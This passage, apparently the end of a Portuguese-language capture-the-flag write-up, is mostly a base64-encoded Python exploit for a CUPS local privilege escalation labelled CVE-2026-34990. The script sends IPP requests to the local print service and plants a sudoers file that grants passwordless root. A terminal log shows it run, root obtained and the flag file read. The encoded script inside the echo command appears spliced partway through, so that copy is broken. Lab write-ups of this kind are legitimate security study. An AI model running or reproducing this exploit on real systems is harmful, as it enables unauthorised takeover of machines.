CiAgICAgICAgICAgICAgICAgICAgICAgIGF0dHIoVF9OQU1FLCAicHBkLW5hbWUiLCAicmF3Iiks
CiAgICAgICAgICAgICAgICAgICAgICAgIGJvb2xlYW4oInByaW50ZXItaXMtc2hhcmVkIiwgVHJ1
ZSksCiAgICAgICAgICAgICAgICAgICAgXSkKICAgICAgICAgICAgICAgICAgICBhZG1pbih0b2tl
biwgT1BfQUNDRVBULCByaWQgKyAxLCBuYW1lKQogICAgICAgICAgICAgICAgICAgIGFkbWluKHRv
a2VuLCBPUF9SRVNVTUUsIHJpZCArIDIsIG5hbWUpCiAgICAgICAgICAgICAgICAgICAgc2VuZF9w
YXlsb2FkKG5hbWUsIHJpZCArIDMpCiAgICAgICAgICAgICAgICBleGNlcHQgRXhjZXB0aW9uOgog
ICAgICAgICAgICAgICAgICAgIHBhc3MKCiAgICAgICAgICAgICAgICBpZiByb290X2NoZWNrKCk6
CiAgICAgICAgICAgICAgICAgICAgcHJpbnQoIlsqXSBuZXh0OiBzdWRvIC1uIGJhc2giKQogICAg
ICAgICAgICAgICAgICAgIHJldHVybgogICAgICAgICAgICAgICAgdGltZS5zbGVlcCgwLjAxKQog
ICAgICAgIGZpbmFsbHk6CiAgICAgICAgICAgIGhvbGQuY2xvc2UoKQoKICAgIHJhaXNlIFN5c3Rl
bUV4aXQoIlstXSBleHBsb2l0IGRpZCBub3Qgd2luIHRoZSByYWNlIikKCmlmIF9fbmFtZV9fID09
ICJfX21haW5fXyI6CiAgICBtYWluKCkK
```

```bash
aporter@portal:~$ echo "IyEvdXNyL2Jpbi9lbnYgcHl0aG9uMwoiIiIKQ1ZFLTIwMjYtMzQ5OTAgLSBDVVBTIExvY2FsIFBy
aXZpbGVnZSBFc2NhbGF0aW9uIFBvQwoKR2VuZXJpYyBwcm9vZi1vZi1jb25jZXB0IGZvciByZXBy
b2R1Y2luZyBDVkUtMjAyNi0zNDk5MAppbiBhdXRob3JpemVkIGFuZCBjb250cm9sbGVkIGVudmly
b25tZW50cy4KClBvQyBhZGFwdGF0aW9uIGFuZCB0ZXN0aW5nOiBOb29yIEtoYWxpbAoKVnVsbmVy
YWJpbGl0eSBjcmVkaXQ6CkFzaW0gVmlsYWRpIE9nbHUgTWFuaXphZGEgKEBtYW5pemFkYSkKClRo
aXMgcHJvamVjdCBpcyBub3QgYWZmaWxpYXRlZCB3aXRoIGFueSBDVEYsIHRyYWluaW5nIHBsYXRm
b3JtLApvciB0aGlyZC1wYXJ0eSBsYWIgZW52aXJvbm1lbnQuCgpGb3IgZWR1Y2F0aW9uYWwgYW5k
IGF1dGhvcml6ZWQgc2VjdXJpdHkgdGVzdGluZyBvbmx5LgoiIiIKaW1wb3J0IGdldHBhc3MsIGd6
aXAsIG9zLCBzb2NrZXQsIHN0cnVjdCwgc3VicHJvY2VzcywgdGhyZWFkaW5nLCB0aW1lCgpVU0VS
ID0gZ2V0cGFzcy5nZXR1c2VyKCkKSE9TVCwgUE9SVCA9ICIxMjcuMC4wLjEiLCA2MzEKQ0FQX0hP
U1QsIENBUF9QT1JUID0gIjEyNy4wLjAuMSIsIDkxODkKVEFSR0VUID0gZiIvZXRjL3N1ZG9lcnMu
ZC97VVNFUn0tcHduIgpQQVlMT0FEID0gZiJ7VVNFUn0gQUxMPShBTEwpIE5PUEFTU1dEOiBBTExc
biIuZW5jb2RlKCkKClRfT1AsIFRfUFJOLCBUX0VORCA9IDB4MDEsIDB4MDQsIDB4MDMKVF9CT09M
LCBUX05BTUUsIFRfS0VZLCBUX1VSSSA9IDB4MjIsIDB4NDIsIDB4NDQsIDB4NDUKVF9DSEFSU0VU
LCBUX0xBTkcsIFRfTUlNRSA9IDB4NDcsIDB4NDgsIDB4NDkKCk9QX1BSSU5UID0gMHgwMDAyCk9Q
X1JFU1VNRSA9IDB4MDAxMQpPUF9BREQgPSAweDQwMDMKT1BfQUNDRVBUID0gMHg0MDA4Ck9QX0NS
RUFURV9MT0NBTCA9IDB4NDAyOAoKZGVmIGF0dHIodGFnLCBuYW1lLCB2YWx1ZSk6CiAgICBpZiBp
c2luc3RhbmNlKHZhbHVlLCBzdHIpOgogICAgICAgIHZhbHVlID0gdmFsdWUuZW5jb2RlKCkKICAg
IG4gPSBuYW1lLmVuY29kZSgpCiAgICByZXR1cm4gYnl0ZXMoW3RhZ10pICsgc3RydWN0LnBhY2so
Ij5IIiwgbGVuKG4pKSArIG4gKyBzdHJ1Y3QucGFjaygiPkgiLCBsZW4odmFsdWUpKSArIHZhbHVl
CgpkZWYgYm9vbGVhbihuYW1lLCB2YWx1ZSk6CiAgICByZXR1cm4gYXR0cihUX0JPT0wsIG5hbWUs
IGIiXHgwMSIgaWYgdmFsdWUgZWxzZSBiIlx4MDAiKQoKZGVmIGNvbW1vbigpOgogICAgcmV0dXJu
IFsKICAgICAgICBhdHRyKFRfQ0hBUlNFVCwgImF0dHJpYnV0ZXMtY2hhcnNldCIsICJ1dGYtOCIp
LAogICAgICAgIGF0dHIoVF9MQU5HLCAiYXR0cmlidXRlcy1uYXR1cmFsLWxhbmd1YWdlIiwgImVu
IiksCiAgICAgICAgYXR0cihUX05BTUUsICJyZXF1ZXN0aW5nLXVzZXItbmFtZSIsIFVTRVIpLAog
ICAgXQoKZGVmIGlwcChvcCwgcmlkLCBvcGF0dHJzLCBwcm5hdHRycz1Ob25lLCBkb2N1bWVudD1i
IiIpOgogICAgYiA9IGJ5dGVhcnJheShzdHJ1Y3QucGFjaygiPkJCSEkiLCAyLCAwLCBvcCwgcmlk
KSkKICAgIGIuYXBwZW5kKFRfT1ApCiAgICBmb3IgeCBpbiBvcGF0dHJzOgogICAgICAgIGIgKz0g
eAogICAgaWYgcHJuYXR0cnM6CiAgICAgICAgYi5hcHBlbmQoVF9QUk4pCiAgICAgICAgZm9yIHgg
aW4gcHJuYXR0cnM6CiAgICAgICAgICAgIGIgKz0geAogICAgYi5hcHBlbmQoVF9FTkQpCiAgICBi
ICs9IGRvY3VtZW50CiAgICByZXR1cm4gYnl0ZXMoYikKCmRlZiBwb3N0KHBhdGgsIGJvZHksIHRv
a2VuPU5vbmUpOgogICAgaCA9IFsKICAgICAgICBmIlBPU1Qge3BhdGh9IEhUVFAvMS4xIiwKICAg
ICAgICBmIkhvc3Q6IHtIT1NUfTp7UE9SVH0iLAogICAgICAgICJDb250ZW50LVR5cGU6IGFwcGxp
Y2F0aW9uL2lwcCIsCiAgICAgICAgZiJDb250ZW50LUxlbmd0aDoge2xlbihib2R5KX0iLAogICAg
ICAgICJDb25uZWN0aW9uOiBjbG9zZSIsCiAgICBdCiAgICBpZiB0b2tlbjoKICAgICAgICBoLmFw
cGVuZChmIkF1dGhvcml6YXRpb246IExvY2FsIHt0b2tlbn0iKQogICAgcmVxID0gKCJcclxuIi5q
b2luKGgpICsgIlxyXG5cclxuIikuZW5jb2RlKCkgKyBib2R5CiAgICB3aXRoIHNvY2tldC5jcmVh
dGVfY29ubmVjdGlvbigoSE9TVCwgUE9SVCksIHRpbWVvdXQ9MikgYXMgczoKICAgICAgICBzLnNl
bmRhbGwocmVxKQogICAgICAgIG91dCA9IGJ5dGVhcnJheSgpCiAgICAgICAgd2hpbGUgVHJ1ZToK
ICAgICAgICAgICAgdHJ5OgogICAgICAgICAgICAgICAgYyA9IHMucmVjdig2NTUzNSkKICAgICAg
ICAgICAgZXhjZXB0IHNvY2tldC50aW1lb3V0OgogICAgICAgICAgICAgICAgYnJlYWsKICAgICAg
ICAgICAgaWYgbm90IGM6CiAgICAgICAgICAgICAgICBicmVhawogICAgICAgICAgICBvdXQgKz0g
YwogICAgcmV0dXJuIGJ5dGVzKG91dCkKCmRlZiBwcmludGVyX3VyaShuYW1lKToKICAgIHJldHVy
biBmImlwcDovL2xvY2FsaG9zdDo2MzEvcHJpbnRlcnMve25hbWV9IgoKZGVmIGFkbWluKHRva2Vu
LCBvcCwgcmlkLCBuYW1lLCBhdHRycz1Ob25lKToKICAgIGJvZHkgPSBpcHAoCiAgICAgICAgb3As
IHJpZCwKICAgICAgICBjb21tb24oKSArIFthdHRyKFRfVVJJLCAicHJpbnRlci11cmkiLCBwcmlu
dGVyX3VyaShuYW1lKSldLAogICAgICAgIGF0dHJzCiAgICApCiAgICByZXR1cm4gcG9zdCgiL2Fk
bWluLyIsIGJvZHksIHRva2VuKQoKY2xhc3MgVG9rZW5TZXJ2ZXIodGhyZWFkaW5nLlRocmVhZCk6
CiAgICBkZWYgX19pbml0X18oc2VsZik6CiAgICAgICAgc3VwZXIoKS5fX2luaXRfXyhkYWVtb249
VHJ1ZSkKICAgICAgICBzZWxmLnRva2VuID0gTm9uZQoKICAgIGRlZiBydW4oc2VsZik6CiAgICAg
ICJfX21haW5fXyI6CiAgICBtYWluKCkK" | base64 -d > exploit.sh
aporter@portal:~$ mv exploit.sh exploit.py
aporter@portal:~$ python3 exploit.py
[*] user: aporter
[*] target: /etc/sudoers.d/aporter-pwn
[+] Local token: D295A8BD402EAE84E567BC9D0C04A505
[*] attempt 1: pwn198102
[+] ROOT via sudoers
uid=0(root) gid=0(root) groups=0(root)
[*] next: sudo -n bash
aporter@portal:~$ sudo -n bash
root@portal:/home/aporter#
```

e gg, assim pegamos root e conseguimos a flag final 

```bash
root@portal:/home/aporter# cd /root
root@portal:~# ls
root.txt
root@portal:~# cat root.txt
<FLAG>
root@portal:~#
```


